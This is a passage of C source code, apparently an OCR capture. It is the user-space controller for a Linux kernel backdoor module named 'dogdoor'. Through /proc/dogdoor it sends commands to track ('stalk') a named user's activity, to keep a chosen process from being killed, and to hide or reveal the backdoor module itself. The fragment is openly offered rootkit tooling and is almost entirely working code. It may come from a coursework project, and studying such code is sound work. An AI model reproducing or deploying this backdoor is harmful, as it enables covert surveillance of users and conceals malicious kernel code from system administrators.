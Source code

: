           //write the result to a file pointer
          char uid[100];
          FILE *p = popen(search, "r");
    
          //get the uid from the pointer
          if(p != NULL) {
           while(fgets(uid, sizeof(uid), p) != NULL);
          }
    
          //if the uid exists start stalking
          if(uid[0] < 58 && uid[0] > 47){
            printf("Start stalking %s.\n", argv[2]);
            int i = 0;
            while(1){
              if(uid[i] == '\n'){
                //uid + '1'
                uid[i] = 49;
                break;
              }
              i++;
            }
            //write the uid+'1' to /proc/dogdoor
            write(fd, uid, strlen(uid));
          }
    
        }
      }
    
      //if the first parameter is "nokill"
      else if(strcmp(argv[1], "nokill") == 0){
        if(argv\[2\][0]-'0'== 0) printf("nokill disabled.\n");
        else printf("Prevent pid %s from killing.\n ", argv[2]);
        //pid + '2'
        strcat(argv[2], "2");
        //write the pid +'2' to /proc/dogdoor
        write(fd, argv[2], strlen(argv[2]));
      }
    
      //if the first parameter is "toggle"
      else if(strcmp(argv[1], "toggle") == 0){
        printf("toggle hiding and showing the backdoor module.\n");
        //write '3' to /proc/dogdoor
        write(fd, "3", 5);
      }
    
      //if the first paramter is "help"
      else if(strcmp(argv[1], "help") == 0) printhelp();
    
      //other cases will be showing the alert message and help message
      else{
        printf("\nCommand not found. Check the manual below.\n\n");
        printhelp();
    
      }
      close(fd);
    